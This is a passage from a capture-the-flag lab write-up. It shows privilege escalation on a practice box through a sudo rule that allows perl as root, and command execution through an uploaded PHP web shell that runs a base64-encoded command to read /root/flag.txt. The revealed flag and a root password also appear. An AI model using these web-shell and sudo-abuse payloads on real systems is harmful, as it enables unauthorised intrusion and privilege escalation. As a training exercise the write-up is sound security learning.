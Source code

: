 Yes! Now we have to find a way to get to the flag. From numerous times, I remember to start from easiest things, which is checking **sudo -l** command.

{% highlight bash %}
Uploaded file: Matching Defaults entries for www-data on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/perl
{% endhighlight %}

Hmm, we can run **perl** commands with root permissions. Let's try to use it and read the contents of the flag.

{% highlight bash %}
root@kali:~# echo "sudo perl-e 'exec(\"cat /root/flag.txt\")'" | base64
c3VkbyBwZXJsLWUgJ2V4ZWMoImNhdCAvcm9vdC9mbGFnLnR4dCIpJwo=

{% endhighlight %}

Now it's time to upload it.

{% highlight bash %}
<?php system(base64_decode('c3VkbyBwZXJsIC1lICdleGVjKCJjYXQgL3Jvb3QvZmxhZy50eHQiKScK')); dia();?>.php
Uploaded file: ________                                                _________
\________\--------___       ___         ____----------/_________/
    \_______\----\\\\\\   //_ _ \\    //////-------/________/
        \______\----\\|| (( ~|~ )))  ||//------/________/
            \_____\---\\ ((\ = / ))) //----/_____/
                 \____\--\_)))  \ _)))---/____/
                       \__/  (((     (((_/
                          |  -)))  -  ))


root password is : hello@3210
easy one .....but hard to guess.....
but i think u dont need root password......
u already have root shelll....


CONGO.........
FLAG : 22d06624cd604a0626eb5a2992a6f2e6
{% endhighlight %}

Our goal was to get the flag, so the job is done here, but reverse shell would be very easy to implement from this step.
